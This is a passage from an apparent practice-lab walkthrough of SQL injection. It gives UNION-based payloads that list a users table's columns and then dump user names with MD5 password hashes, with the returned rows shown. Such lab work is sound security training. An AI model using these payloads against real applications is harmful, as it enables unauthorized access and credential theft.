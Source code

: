 **Get column names for the users table**

<code>'union select column_name, 2 from information_schema.columns where table_name='users'--  </code>

``` plain
ID: 'union select column_name, 2 from information_schema.columns where table_name='users'--  
First name: user_id
Surname: 2

ID: 'union select column_name, 2 from information_schema.columns where table_name='users'--  
First name: first_name
Surname: 2

ID: 'union select column_name, 2 from information_schema.columns where table_name='users'--  
First name: last_name
Surname: 2

ID: 'union select column_name, 2 from information_schema.columns where table_name='users'--  
First name: user
Surname: 2

ID: 'union select column_name, 2 from information_schema.columns where table_name='users'--  
First name: password
Surname: 2

ID: 'union select column_name, 2 from information_schema.columns where table_name='users'--  
First name: avatar
Surname: 2
```

**Get password hashes**

<code>'union select user, password from users-- </code>

``` plain
ID: ' union select user, password from users-- 
First name: admin
Surname: 5f4dcc3b5aa765d61d8327deb882cf99

ID: ' union select user, password from users-- 
First name: gordonb
Surname: e99a18c428cb38d5f260853678922e03

ID: ' union select user, password from users-- 
First name: 1337
Surname: 8d3533d75ae2c3966d7e0d4fcc69216b

ID: ' union select user, password from users-- 
First name: pablo
Surname: 0d107d09f5bbe40cade3de5c71e9e9b7

ID: ' union select user, password from users-- 
First name: smithy
Surname: 5f4dcc3b5aa765d61d8327deb882cf99
```
